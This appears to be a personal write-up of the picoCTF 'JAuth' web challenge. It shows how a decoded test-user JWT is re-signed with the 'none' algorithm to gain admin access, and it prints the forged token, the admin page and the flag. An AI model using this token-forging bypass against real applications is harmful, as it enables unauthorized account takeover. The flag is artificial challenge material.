

# picoGym Level 236: JAuth
Source: https://play.picoctf.org/practice/challenge/236

## Goal
Most web application developers use third party components without testing their security. Some of the past affected companies are:<br>
- Equifax (a US credit bureau organization)
	- breach due to unpatched Apache Struts web framework CVE-2017-5638
- Mossack Fonesca (Panama Papers law firm) breach
	- unpatched version of Drupal CMS used
- VerticalScope (internet media company)
	- outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one?<br>
The website is running here. Can you become an admin?<br>
You can login as test with the password Test123! to get started.<br>
http://saturn.picoctf.net:62178/

## What I learned
```
Always use secret key w/ JWT Token
```



## Solution
```
https://webshell.picoctf.org/

# Login w/ test account and use CyberChef
https://cyberchef.io/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=ZXlKMGVYQWlPaUpLVjFRaUxDSmhiR2NpT2lKSVV6STFOaUo5LmV5SmhkWFJvSWpveE56VTJPVE0xT0Rnek5URTJMQ0poWjJWdWRDSTZJazF2ZW1sc2JHRXZOUzR3SUNoWGFXNWtiM2R6SUU1VUlERXdMakE3SUZkcGJqWTBPeUI0TmpRcElFRndjR3hsVjJWaVMybDBMelV6Tnk0ek5pQW9TMGhVVFV3c0lHeHBhMlVnUjJWamEyOHBJRU5vY205dFpTOHhNemd1TUM0d0xqQWdVMkZtWVhKcEx6VXpOeTR6TmlCRlpHY3ZNVE00TGpBdU1DNHdJaXdpY205c1pTSTZJblZ6WlhJaUxDSnBZWFFpT2pFM05UWTVNelU0T0RSOS41QTZYWldad1JEWWxkVE9vVmZZRWdFTUtCMUMteUN1ZF9IY0lQS052NEdF ⌨️
	HS256 algorithm used

# Change user to admin and don't use secret key
# Note: Select None on algorithm
eyJhbGciOiJub25lIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWUsImlhdCI6MTc1NzAyMjgzOH0. 👀

<html>
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <meta
      name="viewport"
      content="width=device-width, initial-scale=1, shrink-to-fit=no"
    />
    <title>Our Bank</title>
    <link
      rel="stylesheet"
      href="https://maxcdn.bootstrapcdn.com/bootswatch/3.2.0/united/bootstrap.min.css"
    />
    <style type="text/css">
      .form-signin {
        width: 100%;
        max-width: 420px;
        padding: 15px;
        margin: auto;
      }
    </style>
  </head>
  <body>
    <div class="text-center">
      <h1>Hello, admin! You have logged in as admin!</h1> 👀
    </div>
    <div class="text-center"><span>picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}</span></div> 🔐
    <form class="form-signin" action="/logout" method="GET">
      <div class="text-center mb-4">
        <input type="submit" class="btn btn-danger" value="logout" />
      </div>
    </form>
  </body>
</html>
```

## Flag
picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}

## Continue
[Continue](./picoGym0152.md)